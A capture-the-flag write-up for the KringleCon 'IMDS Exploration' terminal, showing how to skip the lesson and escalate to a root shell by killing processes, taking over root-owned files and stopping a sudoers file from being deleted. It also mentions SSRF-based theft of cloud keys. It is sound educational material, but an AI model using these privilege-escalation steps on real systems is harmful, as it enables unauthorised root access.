 # IMDS Exploration

**Elf**: Noxious O'Dor<br/>
**Direct link**: [imds terminal](https://docker2021.kringlecon.com/?challenge=imds&id=d560bf4a-afdb-49b9-be34-634845a8d14c)<br/>
**Objective**: [Now Hiring!](../objectives/o10.md)


## Request

!!! quote "Noxious O'Dor"
    Hey, this is the executive restroom. Wasn't that door closed?<br/>
    I'm Noxious O'Dor. And I've gotta say, I think that Jack Frost is just messed up.<br/>
    I mean, I'm no expert, but his effort to "win" against Santa by going bigger and bolder seems bad.<br/>
    You know, I'm having some trouble with this IMDS exploration. I'm hoping you can give me some help in solving it.<br/>
    If you do, I'll be happy to trade you for some hints on SSRF! I've been studying up on that and have some good ideas on how to attack it!<br/>


## Solution

??? abstract "Welcome message"
    ```text
    🎄🎄🎄 Prof. Petabyte here. In this lesson you'll continue to build your cloud asset skills,
    🎄🎄🎄 interacting with the Instance Metadata Service (IMDS) using curl.
    🎄🎄🎄
    🎄🎄🎄 If you get stuck, run 'hint' for assitance.
    🎄🎄🎄
    ```

This terminal takes you through what [IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is and how you can interact with the service by going over various sample `curl` commands. Instead of rehashing the same commands here and calling it a write-up, let's look at some other fun things we can do, like skipping past all the questions or elevating our privieleges to *root* on the terminal! :metal:

### Speedrun

During Prof. Petabyte's lesson you're asked to type *next* a few times. This command actually works for every single question and so a one-liner like `for i in {1..18}; do next; sleep 1; done` will award you the achievement with minimal effort.

<iframe width="850" height="478" src="https://www.youtube.com/embed/eUDcs1jZ6us" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


### Getting root

Skipping past all the questions is fun, but getting a root shell is better! :partying_face:

Start by using ++"Ctrl"++ + ++"c"++ to break out of the startup sequence. If you time it right you'll prevent the bottom pane from fully loading and end up logged in as the *init* user. In the user's home folder you'll find a [`tmuxp`](https://github.com/tmux-python/tmuxp) session configuration file (i.e., `mysession.yaml`), the `top_pane` and `bottom_pane` [setuid](https://en.wikipedia.org/wiki/Setuid) binaries that are run in each `tmux` pane, and a `questions_answers.json` file.

During terminal startup there's an `/etc/sudoers` file present with an entry for the *elfu* user. However, as `top_bar` parses `questions_answers.json` and loads the data for the first question, it'll execute 2 additional commands, one being `sudo rm /etc/sudoers` which removes *elfu*'s `sudo` permissions again. 

??? info "Taking ownership of files"
    Even though files like `questions_answers.json` are owned by *root* and only readable by *init*, we can leverage the *init* user's `rwx` home folder permissions to take ownership of the files. Create a copy of the files and replace the original *root*-owned files by simply renaming the copies.

To get a root shell, open a new `tmux` window using ++"Ctrl"++ + ++"b"++ ++"c"++ (line 2), kill the old processes (lines 3-5), take ownership of the files so we can edit them (lines 6-9), change the session name in `mysession.yaml` (line 10), edit `questions_answers.json` so it doesn't delete `/etc/sudoers` (line 11), and load `mysession.yaml` to initialize everything again (line 12). We've now switched to the *elfu* account but with the `/etc/sudoers` file still in place, meaning `sudo bash` will give us our root shell.

```shell linenums="1" title="Terminal commands"
# ctrl+c out of the startup sequence
# ctrl+b c to open a new tmux window
ps ax  # list all processes
kill -9 43  # kill the old top pane bash process
kill -9 79  # kill the old bottom pane bash process
cp questions_answers.json questions_answers_copy.json  # create a writable copy
mv -f questions_answers_copy.json questions_answers.json  # rename the file to replace the original
cp mysession.yaml mysession_copy.yaml  # create a writable copy
mv -f mysession_copy.yaml mysession.yaml  # rename the file to replace the original
sed -i 's/ElfU/Elfu2Root/g' mysession.yaml  # edit the session name to Elfu2Root
pico questions_answers.json  # remove the "sudo rm /etc/sudoers" line (e.g., pico, vi)
tmuxp load mysession.yaml  # load the tmux session again
sudo bash  # leverage elfu's sudo permissions
```

Putting all of the above into practice looks something like this.

<iframe width="850" height="478" src="https://www.youtube.com/embed/CfUc4lBr_Ts" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


## Response

!!! quote "Noxious O'Dor"
    Phew! That is something extra! Oh, and you solved the challenge too? Great!<br/>
    Cloud assets are interesting targets for attackers. Did you know they automatically get IMDS access?<br/>
    I'm very concerned about the combination of SSRF and IMDS access.<br/>
    Did you know it's possible to harvest cloud keys through SSRF and IMDS attacks?<br/>
    Dr. Petabyte told us, "anytime you see URL as an input, test for SSRF."<br/>
    With an SSRF attack, we can make the server request a URL. This can reveal valuable data!<br/>
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.
